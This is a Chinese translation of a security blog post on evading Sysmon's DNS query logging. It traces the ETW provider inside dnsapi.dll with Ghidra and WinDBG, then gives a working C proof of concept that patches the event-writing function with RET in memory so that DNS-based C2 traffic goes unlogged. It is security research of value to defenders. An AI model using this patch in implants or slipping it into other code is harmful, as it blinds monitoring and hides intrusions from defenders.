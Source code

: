 > 原文链接: https://www.anquanke.com//post/id/180418 


# 如何规避Sysmon DNS监控


                                阅读量   
                                **315191**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">7</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者xpnsec，文章来源：blog.xpnsec.com
                                <br>原文地址：[https://blog.xpnsec.com/evading-sysmon-dns-monitoring/](https://blog.xpnsec.com/evading-sysmon-dns-monitoring/)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p4.ssl.qhimg.com/t012beadefb4914fbe2.jpg)](https://p4.ssl.qhimg.com/t012beadefb4914fbe2.jpg)



## 0x00 前言

[Sysmon](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon)在最近更新中添加了一个功能，可以记录DNS事件。这一点对防御方非常有用（呼吁SysInternals团队继续免费添加并提供这类工具），但对攻击方而言，这意味着如果我们的植入后门或者payload尝试通过DNS进行通信，那么蓝队就有可能搜集到相关特征，用来检测攻击行为。

容易受该功能影响的一种场景就是基于DNS的C2通信，其中大量请求会被记录下来，可能导致出师未捷身先死。在某次测试过程中，目标环境中部署了这种机制，因此我想花一点时间了解如何规避这种检测机制。在本文中，我将与大家分享规避Sysmon 10.1的一种方法。

在规避Sysmon之前，我们首先需要搭建测试环境。这里我使用[sysmon-config](https://github.com/SwiftOnSecurity/sysmon-config)来安装Sysmon，命令如下：

```
sysmon.exe -accepteula -i rules.xml
```

测试环境搭建完毕并正常运行后，我们可以看到有源源不断的事件被记录下来。过滤Event ID 22，我们可以重点关注“DNS query”（DNS请求）事件，如下所示：

[![](https://p4.ssl.qhimg.com/t01684bb043bdce0f7f.png)](https://p4.ssl.qhimg.com/t01684bb043bdce0f7f.png)

一切准备就绪后，我们可以看下查询请求被记录的原理。



## 0x01 DNS日志审计原理

为了澄清在规避时可以使用哪些选项，我首先想了解一下底层工作原理。根据其他参考资料，我们知道Sysmon会大量依赖ETW来监控各种行为（比如网络连接）。因此DNS监控很有可能也采用相同方式。如果我们使用如下命令，就能找到第一条线索，表明ETW的确是关键点：

```
logman -ets
```

[![](https://p5.ssl.qhimg.com/t01d97eb6da71c739a0.png)](https://p5.ssl.qhimg.com/t01d97eb6da71c739a0.png)

安装Sysmon后，我注意到上图的“Data Collector Set”包含一个“My Event Trace Session”。如果我们进一步分析这个点，可以看到这个数据收集器很有可能负责将DNS数据提供给Sysmon。

[![](https://p5.ssl.qhimg.com/t01fb50363bfcb08a16.png)](https://p5.ssl.qhimg.com/t01fb50363bfcb08a16.png)

继续搜索后，我们可以在各种位置通过`Microsoft-Windows-DNS-Client`这个事件源来获取关于DNS查询的一些信息。但在使用这种方法之前，我通常喜欢通过对应服务来交叉验证这一点，因此这里我们可以试一下Ghidra。在Ghidra中搜索“My Event Trace Session”后，我们找到了如下函数：

[![](https://p0.ssl.qhimg.com/t016f5c4079c99770e9.png)](https://p0.ssl.qhimg.com/t016f5c4079c99770e9.png)

我们在`SysMon64.exe`中找到了这个函数，其中引用了这个特征（备注：这个函数以及名称与微软[官方文档](https://docs.microsoft.com/en-us/windows/desktop/etw/example-that-creates-a-session-and-enables-a-manifest-based-provider)中提供的示例代码非常相似）。在上图中，传递给`EnableTraceEx2`的第2个参数指向的是如下数据：

[![](https://p4.ssl.qhimg.com/t0102d6fc773e101077.png)](https://p4.ssl.qhimg.com/t0102d6fc773e101077.png)

这显然与`logman`输出结果中`Microsoft-Windows-DNS-Client`的GUID相同（``{`1C95126E-7EEa-49A9-A3FE-A378B03DDB4D`}``）。因此现在我们可以肯定这正是该工具记录DNS查询的方法。接下来，我们需要澄清发起DNS请求时这些日志如何被触发。



## 0x02 触发相关日志

这里我们试一下常用的DNS API：`DnsQuery_A`，利用这个API来找到相关ETW数据可能出现的位置。我们显然可以从`dnsapi.dll`中开始寻找，这也是托管该API的服务程序。将该DLL及对应的PDB载入Ghidra中，我们可以开始查找与ETW有关的一些功能。由于我们已经知道与DNS事件相关的一个GUID，因此可以使用这个特征来寻找出发点。令人惊讶的是，我们的确在DLL中找到了这个GUID，对应的是`DNS_CLIENT`符号：

[![](https://p5.ssl.qhimg.com/t01651a423daf58ff20.png)](https://p5.ssl.qhimg.com/t01651a423daf58ff20.png)

如果我们继续跟进，可知`McGenEventRegister`函数中引用到了`DNS_CLIENT`：

[![](https://p2.ssl.qhimg.com/t01a13533783b6c6944.png)](https://p2.ssl.qhimg.com/t01a13533783b6c6944.png)

`DllMain`中会调用该函数，这意味着系统会创建一个句柄（`DNS_CLIENT_Context`），用来发送相关事件。

为了了解整个DLL中如何使用这个句柄，我们可以创建一个小程序，功能很简单，就是发起DNS查询：

```
#include &lt;Windows.h&gt;
#include &lt;WinDNS.h&gt;

int main()
`{`
    DnsQuery_A("blog.xpnsec.com", DNS_TYPE_A, DNS_QUERY_STANDARD, NULL, NULL, NULL);
`}`
```

如果编译该程序并在WinDBG中分析，我们可以添加一个断点，在内存读取`DNS_CLIENT_Context`时触发该断点，命令如下：

```
ba r4 DNSAPI!DNS_CLIENT_Context
```

恢复应用执行后，断点很快就被触发，可以找到如下调用栈：

[![](https://p2.ssl.qhimg.com/t01225a506ac2fa1363.png)](https://p2.ssl.qhimg.com/t01225a506ac2fa1363.png)

而我们对应的指令如下：

[![](https://p5.ssl.qhimg.com/t017c32a6128280a006.png)](https://p5.ssl.qhimg.com/t017c32a6128280a006.png)

这些信息意味着`DnsApi.dll`内部会向`Microsoft-Windows-DNS-Client`发送事件，这个DLL会加载到攻击者进程中，而该进程我们正好可以控制。



## 0x03 规避方法

现在我们知道这些事件会从`DnsApi.dll`内部发出，并且由于该DLL会在我们可控的进程内调用，因此我们可以影响这个过程。这也是我们可以考虑进行patch的一个点。

如何完成这个任务有各种方法，大家可以自己选择。在PoC中，我们选择在运行时patch `DNSAPI!McTemplateU0zqxqz`，使其不通过`EtwEventWriteTransfer`发送相关事件，直接返回。大家可以参考如下代码：

```
#include &lt;iostream&gt;
#include &lt;Windows.h&gt;
#include &lt;WinDNS.h&gt;

// Pattern for hunting dnsapi!McTemplateU0zqxqz
#define PATTERN (unsigned char*)"x48x89x5cx24x08x44x89x4cx24x20x55x48x8dx6c"
#define PATTERN_LEN 14

// Search for pattern in memory
DWORD SearchPattern(unsigned char* mem, unsigned char* signature, DWORD signatureLen) `{`
    ULONG offset = 0;

    for (int i = 0; i &lt; 0x200000; i++) `{`
        if (*(unsigned char*)(mem + i) == signature[0] &amp;&amp; *(unsigned char*)(mem + i + 1) == signature[1]) `{`
            if (memcmp(mem + i, signature, signatureLen) == 0) `{`
                // Found the signature
                offset = i;
                break;
            `}`
        `}`
    `}`

    return offset;
`}`

int main()
`{`
    DWORD oldProtect, oldOldProtect;

    printf("DNS Sysmon Bypass POCn      by @_xpn_nn");

    unsigned char *dll = (unsigned char *)LoadLibraryA("dnsapi.dll");
    if (dll == (void*)0) `{`
        printf("[x] Could not load dnsapi.dlln");
        return 1;
    `}`

    DWORD patternOffset = SearchPattern(dll, PATTERN, PATTERN_LEN);
    printf("[*] Pattern found at offset %dn", patternOffset);

    printf("[*] Patching with RETn");
    VirtualProtect(dll + patternOffset, 10, PAGE_EXECUTE_READWRITE, &amp;oldProtect);
    *(dll + patternOffset) = 0xc3;
    VirtualProtect(dll, 10, oldProtect, &amp;oldOldProtect);

    printf("[*] Sending DNS Query... should now not be detectedn");
    DnsQuery_A("blog.xpnsec.com", DNS_TYPE_A, DNS_QUERY_STANDARD, NULL, NULL, NULL);

`}`
```

成功patch后，如果我们在程序中发起DNS查询请求，可以在不触发任何事件情况下，调用DNS客户端API。整个过程参考[此处视频](https://youtu.be/km4vXyi2l84)。



## 0x04 总结

本文给出了规避这种监控机制可以采用的一种方法，深入了解内部工作原理后，希望大家在将来遇到这类日志审计机制时，能够采用类似方法定制payload，成功规避相关事件。

没有任何机制是百分百有效且安全的，如果蓝队小伙伴们想知道自己是否有必要部署这种技术（或者类似技术），可以考虑攻击者在规避这种技术时需要采用的其他方法，考虑后再做决策。
